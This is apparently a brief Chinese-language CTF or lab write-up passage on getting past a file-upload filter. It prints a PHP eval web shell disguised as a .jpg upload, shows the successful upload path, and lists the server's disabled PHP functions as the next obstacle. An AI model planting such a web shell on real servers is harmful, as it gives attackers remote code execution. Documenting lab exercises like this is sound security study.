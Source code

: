 后缀不能有ph 有文件头检验

问号被过滤

![image-20250917192208662](assets/image-20250917192208662.png)

```
<script language="php">eval($_POST['x']);</script>
```

上传成功：/var/www/html/upload/1da6a81419aa2f88fe5a23317e8c0e5d/1.jpg succesfully uploaded!

![image-20250917192334945](assets/image-20250917192334945.png)

上传成功

![image-20250917194022425](assets/image-20250917194022425.png)

phpinfo里面的disable_functions()函数能看见禁用了哪些函数：

```php
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld	
```

![image-20250917193839359](assets/image-20250917193839359.png)

![image-20250917193937406](assets/image-20250917193937406.png)

